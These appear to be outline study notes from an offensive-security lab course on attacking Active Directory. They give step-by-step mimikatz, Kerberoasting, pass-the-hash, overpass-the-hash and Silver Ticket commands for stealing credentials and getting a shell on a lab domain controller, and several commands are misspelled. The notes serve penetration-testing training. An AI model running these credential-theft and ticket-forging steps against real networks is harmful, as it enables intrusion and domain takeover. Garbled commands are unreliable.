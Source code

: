 		We will abuse the Service Ticket and attempt to crack the password of the Service Account, exporting the hashes to our Kali machine to attempt cracking them (attack calle Kerberoasting):
			From PowerShell: Add-Type -AssemblyName Syste,.IdentityModel New-Object 
			From PowerShell: System,.IdentityModel.Tokens.KerberosRequestorSecurityTocken -ArgumentList 'HTTP/CorpWebServer.corp.com'
			From PowerShell: klist
			With mimikatz we export the hashes to the disk of the server: mimikatz # kerberos::list /export
			We then transfer the hashes to our Kali attacker machine for example to the location: /ftphome/1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
			We install kereroast on our Kali machine: sudo apt-get update && sudo apt-get install kerberoast
			Finally, to crack the hash from Kali attacker machine: python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt /ftphome/1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
	Low and slow password guessing:
		Some domain account policies have account lock outs that may be triggered by brute force or wordlist cracking attacks
		To perform such attack, we first look at the domain account policies and in particular at the "Lockout threshold" and "lockout duration": net accounts
		We can use our PowerShell script to implement our attack: ./enumerateAD6.ps1
		The output will be different in the case the password provided is correct or incorrect and the consequent output will be different (success in case the password is correct. an exception in case it is not correct)
		We can then create a powershell script that will perform this check at a certain brute force rate, based on the lock out period we discovered earlier
Active Directory Lateral Movement:
	Pass the hash:
		It only works on services that use NTLM, not Kerberos
		Let"s see an example of pass the hash attack using the pth-winexe executable from the Pass-the-Hash toolkit: 
			pth-winexe -U offsec%blablantlmhash //10.11.0.22 cmd 
	Overpass the hash:	
		It allows to overabuse a NTLM user hash to get a Kerberos TGT (Service TIcket) that authenticates us access to another machine or service as that user
		First of all, we dump the hashes with mimikatz: mimikatz # sekurls a::logonpasswords
		Then, we need to turn the NTLM hash into a Kerberos ticket...
		We can use again mimikatz to create a PowerShell console run with the privelege of user jeff_admin: mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:blablantlmhash /run:PowerShell.exe
		Within this PowerShell, let us authenticate to a network share on the domain controller in order to generate a TGT: net use \\dc01
		Now we list the cached Kerberos tickets with klist: klist
		And we find the newly requested Kerberos tickets, which includes the TGT and the TGS
		We can use the obtainet TGT with psexec, which does not accept password hashes, but only TGTs. With the following command, we obtain a shell with privelege of user jeff_admin on the domain controller dc01: .\PsExec.exe \\dc01 cmd.exe
	Pass the ticket (Silver Ticket):
		This attack takes advantage of the TGS, which can be exported and reinjected in other machines on the network and then used to authenticate to specific services with no additional authenticatio required if the TGS is in the name of the same user who is trying to authenticate to the server. This attack does not give us additional privilege, but it gives us the flexibility to decide from which machine on the network originate the athentication (not possible in the case of overpassing the hashes). This attack is known as Silver Ticket and we can use mimikatz to create the Silver Ticket.
			First, we need to find the domain SID: whoami /user
			From the user SID output of the whoami /user we need to eliminate the last 4 digits to find the domain SID
			Before creating a new ticket, we flush all existing Kerberos tockets with the command: mimikatz # kerberos::purge
			We verify the purge with the command: mimikatz # kerberos::list
			Finally, to create the Silver Ticket with mimilatz (to note that the flag /ptt means that mimikats inject the Silver Ticket directly in memory): mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:blabladomainsid /target:CorpWebServer.corp.com /service:HTTP /rc4:blablablapasswordhashofhteserviceaccount /ptt
			We can confirm the ticket has been successfully created running again: mimikatz # kerberos::list
Active Directory Persistence:
	Golden Tickets:
